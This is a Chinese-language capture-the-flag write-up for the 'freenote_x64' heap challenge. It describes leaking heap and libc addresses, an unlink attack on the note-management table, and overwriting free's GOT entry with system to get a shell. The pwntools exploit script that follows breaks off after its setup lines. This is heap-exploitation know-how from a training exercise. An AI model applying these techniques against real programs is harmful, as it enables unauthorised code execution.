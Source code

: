 1号用来隔开0,2避免free的时候重合然后泄露出来的地址是libc的

3号隔开topchunk避免2与其重合

我们先free0,2此时

0的fd->main_arean+88，bk指向2

2的fd指向0，bk->main_arean+88

我们先add回来0，填写满8个字符覆盖fd，然后里面的内容就是bk加一堆废物数据

再把2也申请回来，里面写什么无所谓了

再去show的时候就可以得到chunk2的地址，由此可以算出管理区块的地址以及其他chunk的地址



2.unlink泄露libc

unlink的话就老样子咯，构造一个chunk让他的fd bk去指向管理的内容地址

这样我们下次去写入的时候就可以控制管理堆里面的指针了

管理堆的构成由最大chunk数量，当前chunk数量，chunk状态，chunk大小，chunk地址

我们要控制的就是chunk地址，在里面写入free的got

show出来的就是他的got就得到了libc



然后我们再去写入的时候就可以把got更改，改成system的地址

最后传入sh后去free去getshell

exp

```python

#!/usr/bin/env python

# -*- coding: utf-8 -*-

from pwn import *

import sys

#context.log_level = 'debug'

if 1 :

	p=process('./freenote_x64')

	libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

else:

	p=remote('node4.buuoj.cn',29588)

	libc=ELF('libc-2.23.so')



e=ELF('./freenote_x64')

def List():

	p.recvuntil('Your choice: ')

	p.sendline('1')


```